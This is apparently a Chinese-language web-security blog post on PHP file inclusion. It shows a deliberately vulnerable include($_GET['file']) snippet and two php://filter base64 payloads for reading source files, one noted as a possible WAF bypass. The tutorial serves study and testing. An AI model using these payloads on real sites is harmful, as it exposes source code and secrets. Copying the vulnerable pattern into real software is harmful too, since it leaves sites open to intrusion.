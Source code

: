 ```yaml
---
layout:     post
title:      文件包含
subtitle:   文件包含
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```

# 文件包含
文件包含漏洞顾名思义即：包含恶意代码或恶意内容达到一定的攻击效果。

在文件包含漏洞当中，因为php://filter可以对所有文件进行编码处理，所以常常可以使用php://filter来包含读取一些特殊敏感的文件（配置文件、脚本文件等）以辅助后面的漏洞挖掘。

测试代码
```
<?php
    $file  = $_GET['file'];
    include($file);
?>
```
漏洞利用
利用条件：无

## 利用姿势1：

index.php?file=php://filter/read=convert.base64-encode/resource=index.php
通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。同时也能够对网站源码进行审计。

## 利用姿势2：

index.php?file=php://filter/convert.base64-encode/resource=index.php
效果跟前面一样，只是少了个read关键字，在绕过一些waf时也许有用。